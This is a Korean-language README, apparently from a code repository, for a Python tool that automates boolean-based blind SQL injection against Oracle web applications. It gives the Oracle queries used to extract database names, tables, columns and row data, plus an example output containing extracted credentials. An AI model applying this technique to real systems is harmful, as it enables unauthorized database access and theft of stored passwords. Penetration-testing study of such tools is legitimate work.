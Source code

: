 # BlindSQL_wizard.py

**Boolean-based Blind SQL Injection 자동화 도구 (Oracle 지원)**  
Oracle 기반 웹 애플리케이션을 대상으로 DB 이름, 테이블, 컬럼, 내부 데이터를 추출하는 Blind SQLi 자동화 스크립트입니다.

---

## 요구사항

- Python 3.x
- `requests` 라이브러리  
  ```bash
  pip install requests


---

## 사용법

1. **JSESSIONID 설정**

   ```python
   headers = {
       "User-Agent": "Mozilla/5.0",
       "Content-Type": "application/x-www-form-urlencoded",
       "Cookie": "JSESSIONID=EXAMPLE"  # ← 실제 로그인 세션 쿠키로 변경
   }
   ```

2. **공격 파라미터 입력**

   * `paramName`: 공격 대상 파라미터 이름 (예: `"userId"`)
   * `constant_param`: 고정 로그인 파라미터 (예: `{"userPw": "dummy"}`)

3. **실행**

   ```bash
   python BlindSQL_wizard.py
   ```

---

## 기능 요약

*  Boolean-based Blind SQLi 자동화
*  Oracle DB 전용 쿼리 분기 처리
*  DB 이름, 테이블, 컬럼, 일부 데이터 추출
*  `ROWNUM` 기반 페이징 처리
*  JSON 형식으로 결과 저장

---

## 내부 동작

### 1. DB 이름 추출

```sql
SELECT SYS_CONTEXT('USERENV','DB_NAME') FROM dual
```

### 2. 테이블 목록 추출

```sql
SELECT table_name FROM (
  SELECT table_name, ROWNUM r FROM user_tables WHERE ROWNUM <= 100
) WHERE r = {i}
```

### 3. 컬럼 목록 추출

```sql
SELECT column_name FROM (
  SELECT column_name, ROWNUM r FROM user_tab_columns WHERE table_name = '{table}'
) WHERE r = {i}
```

### 4. 데이터 추출

```sql
SELECT TO_CHAR({col}) FROM (
  SELECT {col}, ROWNUM r FROM {table}
) WHERE r = {i}
```

모든 문자열 추출은 `ASCII` 값 비교로 한 글자씩 Boolean 조건문을 통해 얻어집니다.

---

## 결과 예시

결과는 `blind_extracted_result.json`에 자동 저장됩니다.

```json
{
  "database": "ORCL",
  "tables": {
    "USERS": {
      "columns": ["ID", "PASSWORD"],
      "data": [
        {
          "ID": "admin",
          "PASSWORD": "admin123"
        },
        ...
      ]
    }
  }
}
```

